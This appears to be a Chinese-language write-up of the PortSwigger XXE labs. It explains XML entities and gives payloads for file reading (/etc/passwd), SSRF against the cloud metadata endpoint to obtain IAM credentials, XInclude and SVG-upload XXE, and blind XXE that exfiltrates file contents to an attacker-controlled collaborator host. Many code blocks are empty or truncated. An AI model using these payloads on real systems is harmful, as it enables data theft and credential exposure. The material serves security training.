

burpsuite实验室xxe漏洞通关及知识点讲解
最近做了burpsuite实验室的xxe实验，感觉收益匪浅，即学到了漏洞相关知识，也能够实战巩固。特此文章记录一下实验过程，也对相关知识点做一番讲解。
1.xxe漏洞基础
xxe 全称是xml external entity，也就是xml外部实体注入攻击。漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。
在了解xxe漏洞之前我们先来了解一些基础知识。
1.1 什么是XML？
XML代表“可扩展标记语言”。XML是一种设计用于存储和传输数据的语言。像HTML一样，XML主要有标签和数据构成。与HTML不同的是，XML不使用预定义标签，因此可以给标签指定任意名称，也就是自定义标签名。
在Web的早期历史中，XML是一种流行的数据传输格式（“ AJAX”中的“ X”就是代表“ XML”）。但是，现在传输数据主要使用json格式，流行程度以不如以前。
实列代码：
1 | <message> |
1.2.什么是XML实体？
XML实体是一种表示XML文档中数据项的表现方式，而不是使用数据本身。XML语言规范内置了各种实体。
例如，实体<和>代表字符<和>。
这些是用于表示XML标签的元字符，因此，当它们出现在数据中时，为了不破坏xml结构，通常必须使用它们的实体来表示它们。
例如：
1 | <creds> |
1.3.什么是文档类型定义（DTD)？
XML文档类型定义（DTD）包含一些声明，这些声明可以定义XML文档的结构，和数据值的类型以及其他项。
DTD DOCTYPE在XML文档开始处的可选元素中声明。DTD可以完全独立于文档本身（“内部DTD”），也可以从其他位置加载（“外部DTD”），也可以将两者混合使用。
实列代码：
1 | <?xml version="1.0"?>//这一行是 XML 文档定义 |
上面这个 DTD 就定义了 XML 的根元素是 message，然后根元素下面有一些子元素。如果引用了该dtd，那么xml文档必须这么写：
1 | <message> |
1.4.什么是XML自定义实体？
XML允许在DTD中定义自定义实体。例如：
1 | <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]> |
此定义意味着xml文档中引用&myentity ,此值将会被“ my entity value” 替换。
也就是:
1 | &myentity;=my entity value |
1.5.什么是XML外部实体？
XML外部实体是一种自定义实体，其定义位于声明它们的DTD之中。
外部实体的声明使用SYSTEM关键字，并且必须指定一个URL，从该URL可以加载实体的值。例如：
1 |
从http://normal-website.com/entity.dtd加载自定义实体。
URL可以使用该file://协议，因此可以从文件中加载外部实体。例如：
1 | <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]> |
xxe漏洞的来源主要就是因为此处的加载外部实体，如果将url更改为：
1 | file:///etc/passwd |
即可加载本地passwd文件，造成任意文件读取。
了解了基础知识那就进入正题，来看看xxe的攻击方式和挖掘方式。这里主要采用burpsuite实验室漏洞作为讲解。
burpsuite实验室地址：https://portswigger.net/web-security/xxe
2.xxe实战
2.1 利用xxe读取任意文件
在渗透测试时，如果发现传输的数据包存在xml格式的数据。可以重点测试xxe漏洞。
在检查库存处抓包，发现xml格式数据
测试xxe读取任意文件：
exp:
1 |
|
成功读取到passwd文件。
exp解释：
1 |
|
2.2 利用xxe执行ssrf
外部实体能够引用外部url，自然也能够引用内网里的url，那么就可以造成ssrf攻击。
实验要求利用xxe进行ssrf攻击，并给了ip地址为：http://169.254.169.254/
此时我们可以尝试使用ssrf探测该ip的敏感路径。
poc:
1 |
|

报错：无效的产品ID latest
尝试加上/latest
报错：无效的产品ID meta-data
依次按照报错提示添加参数….
完整路径为：/latest/meta-data/iam/security-credentials/admin
最后访问/latest/meta-data/iam/security-credentials/admin 路径即可得到密钥
2.3 利用XInclude检索文件
XInclude攻击
一些应用程序接收客户端提交的数据，将其在服务器端嵌入到XML文档中，然后解析该文档。将客户端提交的数据放入后端SOAP请求中，然后由后端SOAP服务处理该请求时，就会发生这种情况。
在这种情况下，无法进行经典的XXE攻击，因为无法控制整个XML文档，因此无法定义或修改DOCTYPE元素。
但是，也许可以使用XInclude代替。XInclude是XML规范的一部分，该规范允许从子文档构建XML文档。可以在XML文档中的任何部分使用XInclude进行攻击，因此可以在仅控制输出到服务器端XML文档中的单个数据项的情况下执行攻击。
要进行XInclude攻击，需要引用XInclude名称空间并提供要包含的文件的路径。例如：
1 |
|
实验：
库存检索按钮处抓包：
虽然没有xml格式数据，但是此时也可能存在xxe漏洞
检测poc:
1 | productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1 |
2.4 通过文件上传进行xxe
一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML格式的示例是Office文档格式（如DOCX）和图像格式（如SVG）。
攻击实列：
一个应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。虽然应用程序希望接收PNG或JPEG之类的格式，但是使用的图像处理库可能也支持SVG图像。由于SVG格式使用XML，因此攻击者可以提交恶意的SVG图像，从而造成XXE漏洞攻击。
实验：
文章评论处可以上传图片，发现可以上传svg格式的图像
尝试进行xxe攻击
构成exp：
1 | <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> |
将exp保存为svg格式：
上传文件，
在评论，头像处可以看到file:///etc/hostname内容
2.5 利用信息回显验证xxe
检查库存功能发送的数据包中含有xml数据，猜测存在xxe漏洞
但是响应包中并没有回显。
使用burp collaborator客户端，接收请求数据，验证xxe
1 |
|
接收到响应，说明存在不回显的xxe

poc解释：
1 |
|
2.6 通过XML参数实体进行带外交互的盲XXE
有时，由于应用程序进行了某些输入验证或所用XML解析器的某些防护，使用常规实体的XXE攻击被阻止了。在这种情况下，可以改为使用XML参数实体。XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用。就目前的目的而言，只需要知道两件事。首先，XML参数实体的声明在实体名称之前包含百分比字符：
1 | <!ENTITY % myparameterentity "my parameter entity value" > |
其次，使用百分号而不是通常的&号来引用参数实体：
1 | %myparameterentity; |
这意味着可以通过XML参数实体使用带外检测来测试盲XXE，如下所示：
1 | <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> |
此XXE有效负载声明一个XML参数实体xxe，然后在DTD中使用该实体。这将导致对攻击者域的DNS查找和HTTP请求，从而验证攻击是否成功。
实验：
和实验5类似，只是将&符号换位%。
poc:
1 |
|
2.7 盲打xxe利用外部恶意DTD，获取敏感数据
实验五和实验六只是验证了xxe漏洞的存在，并没有利用xxe造成攻击。该实验将演示盲打xxe如何获取敏感数据。
1. 首先在可控制服务器部署dtd文件，内容为：
1 |
|
该DTD执行以下步骤：
- 定义名为file的XML参数实体，其中包含/etc/hostname文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个名为
%(%为%的实体) 的XML参数实体的动态声明exfiltrate。 - 该exfiltrate实体将通过http请求
http://m0nto7pg0wegiq1yunxknsnullrcf1.burpcollaborator.net并在后面带上x=%file参数。而%file参数的值为file:///etc/hostname - 使用eval实体，这将导致exfiltrate执行实体的动态声明。
- 使用exfiltrate实体，通过请求指定的URL来获取指定内容。
在利用服务器，将exp存储到服务器，注意将文件名更改为/exploit.dtd。最后点击store即可存储到dtd文件。
2. xxe，访问攻击服务器部署的dtd文件
poc:
1 | <stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck> |
https://ac6f1fce1f241d918045d10f01e3006b.web-security-academy.net/exploit.dtd 该路径为dtd文件存储的路径。
3. burp collaborator客户端接收到file:///etc/hostname内容
2.8 盲打xxe通过报错获取敏感信息
利用盲打XXE的另一种方法是触发XML分析错误，其中错误消息包含您希望检索的敏感数据。如果应用程序在其响应内返回生成的错误消息，将泄露敏感信息。
1. 攻击服务器部署恶意dtd文件
poc内容：
1 |
|
- 定义名为file的XML参数实体，其中包含/etc/passwd文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个名为error的XML参数实体的动态声明。该error实体将通过加载一个不存在的文件名来引发错误，并且
%file将加载file:///etc/passwd的内容 - 使用eval实体，这将导致error执行实体的动态声明。
- 使用error实体，通过尝试加载不存在的文件来产生一条错误消息，其中包含不存在的文件的名称，将包含
%file的内容/etc/passwd。
向实验七一样部署在burp实验室利用服务器中。
2. xxe，访问部署的dtd文件
poc:
1 |
|

2.9 盲打xxe利用本地的dtd文件获取敏感数据
当带外交互被阻止时，XXE盲目漏洞又如何呢？
无法通过带外连接窃取数据，也无法从远程服务器加载外部DTD。
在这种情况下，由于XML语言规范中的漏洞，仍有可能触发包含敏感数据的错误消息。如果文档的DTD使用内部和外部DTD声明的混合体，则内部DTD可以重新定义在外部DTD中声明的实体。
发生这种情况时，放宽了在另一个参数实体的定义中使用XML参数实体的限制。
这意味着，如果攻击者使用的XML参数实体重新定义了在外部DTD中声明的实体，则攻击者可以在内部DTD中采用基于错误的XXE技术。
当然，如果阻塞了带外连接，则无法从远程位置加载外部DTD。相反，它必须是应用程序服务器本地的外部DTD文件。本质上，攻击涉及调用本地文件系统上恰好存在的DTD文件，然后重新触发该文件以重新定义现有实体，从而触发包含敏感数据的解析错误。该技术由Arseniy Sharoglazov率先提出，在2018年我们的十大网络黑客技术中排名第七。
例如，假设服务器文件系统上有一个DTD文件/usr/local/app/schema.dtd，并且此DTD文件定义了一个名为custom_entity的实体。攻击者可以通过提交混合DTD 来触发包含/etc/passwd文件内容的XML分析错误消息，如下所示：
1 |
该DTD执行以下步骤：
- 定义一个名为local_dtd的XML参数实体，其中包含本地服务器文件系统上存在的外部DTD文件的内容。
- 重新定义名为custom_entity的XML参数实体，该参数实体已经在
/usr/local/app/schema.dtd中定义。该实体将触发包含/etc/passwd文件内容的错误消息。 - 使用local_dtd实体，解释外部
usr/local/app/schema.dtddtd实体，包括custom_entity实体的重新定义值。将导致，并返回错误消息。
由于此XXE攻击涉及重新使用服务器文件系统上的现有DTD，因此关键的要求是找到合适的文件。
这实际上非常简单。因为应用程序返回了XML解析器抛出的任何错误消息，所以只需尝试从内部DTD中加载它们，就可以轻松枚举本地DTD文件。
例如，使用GNOME桌面环境的Linux系统通常在DDT文件/usr/share/yelp/dtd/docbookx.dtd。
可以通过提交以下XXE有效负载来测试该文件是否存在，如果缺少该文件，则会导致错误：
1 | <!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">%local_dtd;]> |
在测试了常见DTD文件列表以找到存在的文件之后，需要获取该文件的副本并对其进行检查，以找到可以重新定义的实体。
由于包括DTD文件的许多常见系统都是开源的，因此通常可以通过互联网搜索快速获取文件的副本。
本地dtd文件可以通过以下请求来测试：
1 |
没有返回错误信息，说明存在该dtd文件
exp:
1 |
|
参考链接：
 alipay
alipay